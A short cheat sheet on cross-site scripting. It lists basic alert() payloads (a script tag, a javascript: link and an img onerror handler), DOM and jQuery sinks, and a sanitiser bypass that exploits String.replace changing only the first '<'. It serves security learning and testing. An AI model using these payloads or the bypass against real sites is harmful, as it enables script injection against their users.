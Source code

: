 ```yaml
---
title: XSS - Cross Site Scripting
description: XSS cheatsheets, payloads and tricks.
---
```


# XSS

## Attack

### Basic payload

```html
<sCRipT>alert()</scRipt>
<a href="javascript:alert()"></a>
<img src=x onerror="alert()">
```

More payloads on [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

### Vectors

If you can control the `href` tag of an anchor (`<a>` element). You can try to set the `href` value to `javascript:alert()`.

### HTML events and tags

Lists :

- [all-html-events.txt]({{ base_url }}/assets/txt/all-html-events.txt)
- [all-html-tags.txt]({{ base_url }}/assets/txt/all-html-tags.txt)

> Source [www.w3schools.com - event](https://www.w3schools.com/tags/ref_eventattributes.asp) and [www.w3schools.com - tags](https://www.w3schools.com/TAGs/).

### HTML tags



### DOM XSS

The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```
document.write()  
document.writeln()  
document.domain  
element.innerHTML  
element.outerHTML  
element.insertAdjacentHTML  
element.onevent  
```

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```
add()  
after()  
append()  
animate()  
insertAfter()  
insertBefore()  
before()  
html()  
prepend()  
replaceAll()  
replaceWith()  
wrap()  
wrapInner()  
wrapAll()  
has()  
constructor()  
init()  
index()  
jQuery.parseHTML()  
$.parseHTML()
```

> Source [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/dom-based).

## Bypass

### Replace function

The `replace` function only replace the first occurence.

```js
> "<img src=x onerror='alert()'>".replace("<", "&lt;")
"&lt;img src=x onerror='alert()'>"


> "<<img src=x onerror='alert()'>".replace("<", "&lt;")
"&lt;<img src=x onerror='alert()'>"
```

